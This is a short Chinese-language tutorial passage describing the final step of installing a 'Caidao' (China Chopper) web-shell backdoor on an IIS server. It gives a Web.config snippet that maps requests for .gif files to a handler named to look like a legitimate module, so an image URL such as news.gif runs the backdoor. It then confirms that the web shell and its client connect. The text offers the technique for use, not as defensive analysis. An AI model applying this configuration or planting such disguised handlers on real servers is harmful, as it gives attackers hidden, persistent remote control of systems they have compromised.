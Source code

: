 ![](../img/net/38e40fc44d587448f24837ce61583cc5.png)

修改Web.config配置，添加新的DLL映射关系，完成这步整个菜刀后门配置完成。

```
<system.webServer> <modules runAllManagedModulesForAllRequests="true"/> <directoryBrowse enabled="true"/> <staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent> <handlers> <add name="PageHandlerFactory-ISAPI-2.0-32-1" path="*.gif" verb="*" type="IsapiModu1e.Handler" preCondition="integratedMode"/> </handlers> </system.webServer>
```




访问图片菜刀地址 <http://ip/news.gif> ，看到下图表示菜刀马运行成功！

![](../img/net/80d7867752b9266bb3768553496f4faf.png)

菜刀也毫无压力的连接成功！

![](../img/net/29aadfd0a7afe3a898ba8c3523018e0c.png)
